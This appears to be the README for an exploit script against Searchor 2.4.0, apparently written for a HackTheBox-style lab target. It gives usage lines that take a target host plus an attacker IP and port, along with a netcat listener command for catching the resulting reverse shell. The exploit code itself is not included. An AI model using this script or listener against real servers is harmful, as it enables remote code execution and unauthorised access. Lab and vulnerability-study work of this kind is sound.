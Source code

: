 
This is just a quick script to exploit webservers running the vulnerable version of Searchor.

This script will accept a hostname, the attacker's IP address and the attacker's Port number.

- Usage example: 
-  `python3 searchor_2.4.0_RCE.py <HOSTNAME> <ATK_IP> <ATK_PORT>
-  `python3 searchor_2.4.0_RCE.py searchor.htb 10.10.14.52 4242`
 
- It is recommended to use the following when preparing to catch the reverse shell:
-  `rlwrap nc -lvnp <ATK_PORT>` 

Additional details about the vulnerability can be found in the official issue history for [Searchor](https://github.com/ArjunSharda/Searchor/pull/130).


